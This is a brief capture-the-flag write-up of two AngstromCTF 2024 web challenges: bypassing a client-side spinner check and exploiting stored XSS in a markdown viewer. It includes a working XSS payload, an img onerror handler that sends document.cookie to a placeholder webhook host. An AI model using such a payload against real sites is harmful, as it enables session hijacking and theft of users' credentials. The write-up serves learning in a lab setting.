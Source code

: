 ```yaml
---
date: '2025-02-05T15:18:06+07:00'
draft: false
title: 'AngstromCTF 2024'
hideSummary: true
type: "writeups"
description: "Writeup for some web challenge for AngstromCTF 2024"
---
```

## TL;DR
This is a writeup for some web challenge for AngstromCTF 2024
## Spinner
```javascript
const message = async () => {
    if (state.flagged) return
    const element = document.querySelector('.message')
    element.textContent = Math.floor(state.total / 360)
    if (state.total >= 10_000 * 360) {
        state.flagged = true
        const response = await fetch('/falg', { method: 'POST' })
        element.textContent = await response.text()
    }
}
message()
```
We can simply make POST request to /falg or using the console to assign the state.total to any number larger than stated above.
## Markdown
There are no filtering or any encoding use while parsing the HTML, so this is a simple XSS.
```javascript
app.get('/view/:id', (_req, res) => {
    const marked = (
        'https://cdnjs.cloudflare.com/ajax/libs/marked/4.2.2/marked.min.js'
    )

    res.type('text/html').end(`
        <link rel="stylesheet" href="/style.css">
        <div class="content">
        </div>
        <script src="${marked}"></script>
        <script>
            const content = document.querySelector('.content')
            const id = document.location.pathname.split('/').pop()

            delete (async () => {
                const response = await fetch(\`/content/\${id}\`)
                const text = await response.text()
                content.innerHTML = marked.parse(text)
            })()
        </script>
    `)
})
```
A simple img tag can help us retrieve the cookie.
```html
<img src="" onerror="location='WEBHOOK/?c='+document.cookie">
```
And finally make a GET request to get the flag.
